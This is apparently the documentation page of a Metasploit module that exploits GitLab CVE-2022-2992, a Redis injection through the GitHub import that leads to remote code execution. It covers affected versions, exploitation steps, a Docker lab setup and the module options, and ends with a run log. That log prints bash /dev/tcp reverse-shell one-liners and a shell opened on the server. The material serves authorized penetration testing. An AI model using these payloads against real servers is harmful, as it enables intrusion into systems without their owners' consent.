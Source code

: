 ## Vulnerable Application

### Description

An authenticated user can import a repository from Github into Gitlab.

When importing a GitHub repository the Gitlab api client uses `Sawyer` for handling the responses. This takes a JSON hash and converts
it into a Ruby class that has methods matching all of the keys. This happens recursively, and allows for any method to be overridden
including built-in methods such as `to_s`.

The redis gem uses `to_s` and `bytesize` to generate the RESP (Redis serialization protocol) command. By replying with a specially
crafted JSON object (that will be further parsed as a `Sawyer::Resource`), one controlling the Github server can inject arbitrary
redis commands to the stream.

On August 30, 2022, Gitlab released a software update that addressed this vulnerability (CVE-2022-2992).

The following products are affected:

- From 11.10 to 15.1.6
- From 15.2 to 15.2.4
- From 15.3 to 15.3.2


### Exploitation

This module exploits the Gitlab vulnerability by injecting a Ruby serialized object into the Redis user
session object. Once Gitlab calls the Marshal.load when loading the ` _gitlab_session` cookie, it will execute a deserialisation gadget and trigger the payload.

To achieve that this module:
- Will generate an universal Ruby deserialisation gadget payload;
- Will create an access token for the user targeted;
- Will start a server to emulate the Github and serve the payload to be injected;
- Will create a group and also trigger the Github import feature to the repository from the controlled server
- Will perform a request using the just injected session ID that when loaded must trigger the payload.

After the execution the cleanup method will be called and:
- Should delete the created group and consequently the repository
- Should revoke the access token created
- Should logout the user

### Setup

Create a `docker-compose.yml` file as below:

```yml
services:
  gitlab:
    image: 'gitlab/gitlab-ee:15.3.1-ee.0'
    restart: always
    container_name: gitlab
    hostname: 'gitlab.example'
    network_mode: "bridge"
    ports:
      - '880:80'
      - '8443:443'
    volumes:
      - gitlab_config:/etc/gitlab
      - gitlab_logs:/var/log/gitlab
      - gitlab_data:/var/opt/gitlab
volumes:
  gitlab_config:
    driver: local
  gitlab_logs:
    driver: local
  gitlab_data:
    driver: local
```

Run the below command to create the container:

```
$ docker-compose up
```

Wait for container to be "healthy" before continue. One can use [this](https://github.com/redwaysecurity/CVEs/blob/main/CVE-2022-2992/environment/healthy.sh) bash script to monitor the status.

```
$ # Creating personal access token for the root user
$ TOKEN=`tr -dc A-Za-z0-9 </dev/urandom | head -c 24 ; echo ''`
$ docker exec -e TOKEN=$TOKEN -it gitlab gitlab-rails runner "token = User.find_by_username('root').personal_access_tokens.create(scopes: [:sudo, :api], name: 'Automation token'); token.set_token(ENV['TOKEN']); token.save!"
$ # Using the personal access token from the root user a user.
$ USER=msf
$ PASSWORD=SuperStrongestGitlabPassword
$ curl --request POST --header "PRIVATE-TOKEN: $TOKEN" --data "skip_confirmation=true&email=$USER@gitlab.example&name=$USER&username=$USER&password=$PASSWORD" "http://gitlab.example:880/api/v4/users"
```

## Verification Steps
Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### TARGETURI (required)

The path to the Gitlab (Default: `/`).

### USERNAME (required)

The username of the target user to authenticate with.

### PASSWORD (required)

The password of the target user to authenticate with.

### NGROK_URL (required)

The Ngrok tunnel url to be used. The Gitlab will perform requests to this address when trying to import the repository.

Example how start the tunnel:
```
ngrok http 127.0.0.1:4567
```

### SRVHOST (required)

The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.

### SRVPORT (required)

The local port to listen on. This is the port to be used when creating the tunnel.

## Scenarios

### Doker container running Gitlab 15.3.1

```
msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > options

Module options (exploit/multi/http/gitlab_github_import_rce_cve_2022_2992):

   Name       Current Setting                         Required  Description
   ----       ---------------                         --------  -----------
   NGROK_URL  https://f8f5-194-230-160-77.eu.ngrok.i  yes       The Ngrok tunnel url
              o
   PASSWORD   12345678                                yes       The password for the specified username
   Proxies    http:172.25.144.1:8080                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.25.144.1                            yes       The target host(s), see https://github.com/rapid7/metasploit-framewor
                                                                k/wiki/Using-Metasploit
   RPORT      880                                     yes       The target port (TCP)
   SRVHOST    0.0.0.0                                 yes       The local host or network interface to listen on. This must be an add
                                                                ress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    4567                                    yes       The local port to listen on.
   SSL        false                                   no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                            no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                                       yes       The base path to the gitlab application
   URIPATH                                            no        The URI to use for this exploit (default is random)
   USERNAME   heyder                                  yes       The username to authenticate as
   VHOST                                              no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting       Required  Description
   ----   ---------------       --------  -----------
   LHOST  host.docker.internal  yes       The listen address (an interface may be specified)
   LPORT  4444                  yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command

msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > exploit

[+] bash -c '0<&212-;exec 212<>/dev/tcp/host.docker.internal/4444;sh <&212 >&212 2>&212'
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) >
[-] Handler failed to bind to 169.254.192.184:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[!] AutoCheck is disabled, proceeding with exploitation
[*] Using URL: http://host.docker.internal:4567/
[*] Executing command: bash -c '0<&151-;exec 151<>/dev/tcp/host.docker.internal/4444;sh <&151 >&151 2>&151'
[*] Session ID: lbid
[*] Creating group KQPhsIKX
[*] Importing a repository from github
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:58700) at 2022-11-19 15:23:06 +0100

msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > sessions -1
[*] Starting interaction with 1...

id
uid=998(git) gid=998(git) groups=998(git)
pwd
/var/opt/gitlab/gitlab-rails/working
exit
[*] Server stopped.
[*] 172.25.144.1 - Command shell session 1 closed.
```

